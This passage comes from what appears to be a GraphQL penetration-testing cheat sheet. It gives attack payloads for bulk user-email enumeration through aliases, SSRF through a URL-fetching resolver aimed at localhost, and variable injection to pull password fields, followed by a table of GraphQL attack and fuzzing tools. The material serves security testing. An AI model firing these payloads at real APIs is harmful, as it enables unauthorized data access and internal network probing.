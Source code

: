 ```graphql
query {
  u1: user(id: 1) { email }
  u2: user(id: 2) { email }
  u3: user(id: 3) { email }
}
```

---

### SSRF via Resolver

**Goal**: Fetch internal URLs via exposed resolver  
**Payload**:

```graphql
query {
  fetchUrl(url: "http://localhost:8000/internal")
}
```

---

### GraphQL Injection via Variables

**Goal**: Manipulate query structure indirectly  
**Payload**:

```json
{
  "query": "query getUser($field: String!) { user { $field } }",
  "variables": {
    "field": "password"
  }
}
```

---
## Test Cases in GraphQL 

[Test Cases in GraphQL](https://github.com/x0tiger/GraphQL/blob/main/Checklist.md)


## Tools for Testing and Securing GraphQL

| Tool                | Description                            |
| ------------------- | -------------------------------------- |
| **GraphQLmap**      | CLI for automating attacks and fuzzing |
| **InQL**            | Burp Suite plugin for GraphQL testing  |
| **Altair**          | GUI client for crafting queries        |
| **GraphCrawler**    | Schema/path exploration & brute force  |
| **GraphQL Voyager** | Visualizes GraphQL schemas             |

---